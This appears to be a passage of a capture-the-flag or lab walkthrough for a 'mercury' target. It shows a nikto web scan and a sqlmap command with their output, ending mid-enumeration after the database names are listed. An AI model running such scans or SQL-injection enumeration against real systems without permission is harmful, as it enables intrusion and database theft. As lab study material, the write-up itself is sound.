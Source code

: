 # Nikto 

>[!danger] Command
>```bash
>nikto -host http://10.38.1.114:8080/mercury/

>[!success] Output
>```bash
>- Nikto v2.5.0
>---------------------------------------------------------------------------
>+ Target IP:          10.38.1.114
>+ Target Hostname:    10.38.1.114
>+ Target Port:        8080
>+ Start Time:         2023-08-01 19:08:59 (GMT2)
>---------------------------------------------------------------------------
>+ Server: WSGIServer/0.2 CPython/3.8.2
>+ No CGI Directories found (use '-C all' to force check all possible dirs)
> + /SilverStream: SilverStream allows directory listing. See: https://web.archive.org/web/20011226154728/http://archives.neohapsis.com/archives/sf/pentest/2000-11/0147.html
> + /static/: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
>+ 8103 requests: 0 error(s) and 2 item(s) reported on remote host
>+ End Time:           2023-08-01 19:10:36 (GMT2) (97 seconds)
>---------------------------------------------------------------------------

>[!warning] Notes
>- We use the `/SilverStream` to discover that there is a directory named `mercuryfacts/` that exists.
>- Inside it, there is a todo list of things that the developers need to make
>- We see that there is a SQL database with credentials, and that it is raw requests

# Database dumping

**We will use sqlmap to try to find any databases**

>[!danger] Command
>```bash
>sqlmap -u "10.38.1.114:8080/mercuryfacts/" --batch --dbs

>[!question] Explanation
>- `--dbs` is for discovering all database
>- `--batch` is simply to not require user input
>- `-u` is for the target's ip

>[!success] Output
>```bash
>[19:42:54] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[19:42:55] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury
